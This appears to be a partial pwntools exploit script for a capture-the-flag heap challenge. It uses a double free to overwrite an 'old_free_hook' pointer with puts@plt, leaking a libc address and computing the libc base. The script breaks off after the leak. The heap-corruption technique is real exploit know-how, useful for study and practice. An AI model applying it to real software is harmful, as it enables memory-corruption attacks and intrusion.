 ```py
u64 = lambda d: pwn.u64(d.ljust(8, b"\0")[:8])
u32 = lambda d: pwn.u32(d.ljust(4, b"\0")[:4])
u16 = lambda d: pwn.u16(d.ljust(2, b"\0")[:2])
sla = lambda a, b: io.sendlineafter(a, b)
sl = lambda a: io.sendline(a)
recv = lambda: io.recv()
recvn = lambda a: io.recvn(a)
recvu = lambda a, b=False: io.recvuntil(a, b)

def launch():
    l = launch_local
    l = launch_remote
    l()

def getb(d, a, b):
    a_ = d.find(a)
    return d[a_+len(a):d.find(b, a_)] # returns stuff between a & b

def alloc(size, data):
    # sl(b"1")
    sla(b"exit\n", b"1")
    sleep(speed)
    sl(str(size).encode())
    sleep(speed)
    sl(data)
    sleep(speed)

def free():
    sla(b"exit\n", b"2")
    sleep(speed)

def quit():
    sla(b"exit\n", b"3")

exe = ELF(file)
libc = ELF("./libc.so.6")

def exploit():
    sleep(speed)

    alloc(8, b"") # double free 0x20 sized chunk to later overwrite old_free_hook
    free()
    free()

    alloc(0x28, b"")# double free 0x20 sized chunk to overwrite old_free_hook
    free()
    free()
    alloc(0x28, p64(exe.sym["old_free_hook"]))
    alloc(0x28, b"")
    payload = flat([
        exe.plt["puts"], # old_free_hook -> puts@plt
        exe.sym["stderr"], # "a" -> address of stderr
    ])
    alloc(0x28, payload)
    debug()
    input()
    free() # free(a) to leak stderr

    leak = recvu(b"free")
    leak = getb(leak, b">>> ", b"\n=====")
    libc.address = u64(leak) - 0x3ec680
    print("libc: %#018x" % libc.address)

```